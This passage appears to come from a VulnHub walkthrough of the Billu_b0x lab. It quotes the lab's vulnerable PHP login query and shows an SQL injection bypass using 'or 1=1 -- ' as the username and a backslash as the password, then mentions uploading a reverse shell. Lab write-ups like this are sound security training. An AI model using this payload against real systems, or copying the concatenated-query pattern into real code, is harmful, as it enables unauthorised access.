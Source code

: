 ![9-7.png](/assets/images/posts/billu-b0x-vulnhub-walkthrough/9-7.png)

Alternatively we can gain access via SQL bypass. Let's examine the code for the `/index.php` page.

    $uname=str_replace('\'','',urldecode($_POST['un'])); 
    $pass=str_replace('\'','',urldecode($_POST['ps']));
    $run='select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\'';
    $result = mysqli_query($conn, $run);

    if (mysqli_num_rows($result) > 0) {
      $row = mysqli_fetch_assoc($result);
      echo "You are allowed<br>";
      $_SESSION['logged']=true;
      $_SESSION['admin']=$row['username'];
         
      header('Location: panel.php', true, 302);   
    }

From this we see that we're replacing the quotes `\' `with space `''`. The `\` is used as an escape sequence.
It then url decodes the username and payload. 
We're using a direct sql statement for authentication.
Attempting to use sqlmap for injection fails. 
We then make a direct attempt at bypass attempting to visualise how the query will look upon insertion.
    
    select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\'

Resultant sql statement will look as follows;

    select * from auth where  pass='pw' and uname='user'

To bypass this we use the following parameters;

    uname: or 1=1 -- (make sure there is a space after the double hyphen; otherwise the injection fails)
    pass: \

The query actually becomes;

    select * from auth where  pass=" and uname=" or 1=1 --
We're in;

The quote now forms part of the password. This bypass works and we're into the authenticated section. We then try upload a reverse shell and we get:


[1]: https://www.vulnhub.com/entry/zico2-1,210/
[2]: https://twitter.com/@indishell1046
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator